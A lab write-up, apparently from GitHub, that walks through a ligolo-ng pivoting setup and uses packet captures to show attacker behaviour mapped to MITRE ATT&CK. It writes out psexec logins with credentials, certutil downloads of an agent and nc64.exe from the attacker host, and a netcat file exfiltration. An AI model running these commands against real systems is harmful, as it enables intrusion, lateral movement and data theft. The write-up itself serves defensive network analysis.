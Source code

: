 
I started a network capture on BOX-COMPUTER and DC01 on all interfaces during a simple pivoting setup. 
This showcases significant packets that contextualise attacker behaviour. 
This is not meant to be a tutorial for [ligolo-ng](https://github.com/nicocha30/ligolo-ng). 

| Host         | IP                           |
| ------------ | ---------------------------- |
| kali         | 192.168.18.128               |
| BOX-COMPUTER | 192.168.18.5<br>10.10.15.128 |
| DC01         | 10.10.15.10                  |

# Initial psexec login
[SMB/Windows Admin Shares](https://attack.mitre.org/techniques/T1021/002/)
kali compromises BOX-COMPUTER:
```zsh
impacket-psexec webby/john:'P@ssw0rd'@192.168.18.5
```
![1_psexec.png](screenss/1_psexec.png)


Agent file downloaded to BOX-COMPUTER
[Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)
```cmd
certutil -urlcache -f http://192.168.18.128/c2/agent.exe .\agent.exe
```
![2_transferagent.png](screenss/2_transferagent.png)

Agent connected
```cmd
.\agent.exe -connect 192.168.18.128:11601 -ignore-cert
```

[Protocol Tunneling](https://attack.mitre.org/techniques/T1572/)
BOX-COMPUTER Capture of the first handshake
![3_agentconn.png](screenss/3_agentconn.png)

interface shown in ligolo console
![4_othersubnet.png](screenss/4_othersubnet.png)


# Pivot to other subnet
Add route to the internal subnet, start tunnelling through the agent
![5_addroute.png](screenss/5_addroute.png)
![6_tunnelstart.png](6_tunnelstart.png)

Add listener on agent for kali web server.
```zsh
listener_add --addr 0.0.0.0:8888 --to 0.0.0.0:80
```


kali compromised DC01
```zsh
impacket-psexec webby/Administrator:'P@ssw0rd'@10.10.15.10
```


Despite capturing at both interfaces, BOX-COMPUTER capture can no longer see kali's activities in its internal subnet, due to the tunnel encapsulation and encryption. All packets forth are encrypted within this tunnel. 
![7_encryption.png](screenss/7_encryption.png)


DC01 capture shows BOX-COMPUTER as the origin of psexec login
![8_psexec2.png](screenss/8_psexec2.png)


Kali wants to exfiltrate file
![9_wantfile.png](screenss/9_wantfile.png)

Download of nc64.exe
```cmd
certutil -urlcache -f http://10.10.15.128:8888/revshell/nc64.exe .\nc64.exe
```

DC01 capture shows BOX-COMPUTER hosting a web server due to the port forwarding in place
![10_transfernc.png](screenss/10_transfernc.png)


Kali setup listener on agent to listen for file
```zsh
listener_add --addr 0.0.0.0:5555 --to 0.0.0.0:5555
```
```zsh
nc -nvlp 5555 > donottouch.txt
```


[Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048/)
DC01 shell send file to agent
```cmd
.\nc64.exe 10.10.15.128 5555 < donottouch.txt
```

DC01 capture showing file contents in plaintext
![11_exfiltration.png](screenss/11_exfiltration.png)


Kali received file
```zsh
listening on [any] 5555 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 46072
^C
```
![12_stolenfile.png](screenss/12_stolenfile.png)
